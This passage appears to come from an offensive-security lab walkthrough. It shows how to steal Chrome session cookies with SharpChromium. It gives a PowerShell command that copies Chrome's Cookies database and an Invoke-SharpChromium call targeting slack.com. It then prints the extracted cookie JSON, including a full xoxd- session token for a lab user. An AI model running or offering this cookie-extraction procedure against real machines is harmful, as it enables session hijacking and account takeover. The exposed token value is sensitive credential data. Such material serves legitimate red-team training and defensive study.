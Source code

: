 2) Copy Cookies to SharpChromium Expected Location

```
copy "$env:LOCALAPPDATA\Google\Chrome\User Data\Default\Network\Cookies" "$env:LOCALAPPDATA\Google\Chrome\User Data\Default\Cookies"
```

3) Invoke-SharpChromium Cookies Extraction

```
Invoke-SharpChromium -Command "cookies slack.com"

[*] Beginning Google Chrome extraction.

--- Chromium Cookie (User: lab_admin) ---
Domain         : slack.com
Cookies (JSON) :
[

<SNIP>

{
    "domain": ".slack.com",
    "expirationDate": 1974643257.67155,
    "hostOnly": false,
    "httpOnly": true,
    "name": "d",
    "path": "/",
    "sameSite": "lax",
    "secure": true,
    "session": false,
    "storeId": null,
    "value": "xoxd-5KK4K2RK2ZLs2sISUEBGUTxLO0dRD8y1wr0Mvst%2Bm7Vy24yiEC3NnxQra8uw6IYh2Q9prDawms%2FG72og092YE0URsfXzxHizC2OAGyzmIzh2j1JoMZNdoOaI9DpJ1Dlqrv8rORsOoRW4hnygmdR59w9Kl%2BLzXQshYIM4hJZgPktT0WOrXV83hNeTYg%3D%3D"
},
{
    "domain": ".slack.com",
    "hostOnly": false,
    "httpOnly": true,
    "name": "d-s",
    "path": "/",
    "sameSite": "lax",
    "secure": true,
    "session": true,
    "storeId": null,
    "value": "1659023172"
},

<SNIP>

]

[*] Finished Google Chrome extraction.

[*] Done.
```
